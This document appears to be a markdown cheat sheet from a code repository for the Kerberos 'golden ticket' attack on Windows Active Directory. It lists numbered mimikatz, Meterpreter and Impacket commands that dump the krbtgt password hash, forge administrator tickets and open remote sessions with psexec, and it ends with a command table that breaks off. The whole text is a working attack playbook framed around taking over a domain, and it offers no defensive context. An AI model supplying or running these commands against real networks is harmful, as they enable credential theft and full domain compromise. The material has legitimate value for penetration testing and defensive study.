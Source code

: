 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) 

    mimikatz.exe

#### 2) 

    privilege::debug

#### 3) 

    lsadump::lsa /inject /name:krbtgt

#### 4) 

    lsadump::lsa /patch

#### 5) 

    lsadump::trust /patch

#### 6) 

    lsadump::dcsync /user:krbtgt

#### 7) 

    kerberos::purge

#### 8) 

    kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 9) 

    kerberos::tgt

#### 10) 

    misc::cmd

## Alternate method: Meterpreter shell

### Get information for golden ticket

#### 1) 

    dcsync_ntlm krbtgt

#### 2) 

    dcsync krbtgt

### Forge a Golden Ticket

#### 3) 

    load kiwi

#### 4) 

    golden_ticket_create -d DOMAIN_NAME -k NTLM_HASH_OF_KRBTGT -s SID -u Administrator

#### 5) 

    kerberos_ticket_purge

#### 6) 

    kerberos_ticket_use /root/Downloads/Administrator.tck

#### 7) 

    kerberos_ticket_list

### Authenticate with psexec impacket (Linux)

#### 8) 

    ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100

## Alternate Method: Impacket Ticketer

#### 1) 

    python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus

#### 2) 

    export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache

#### 3) 

    python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass

# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`          

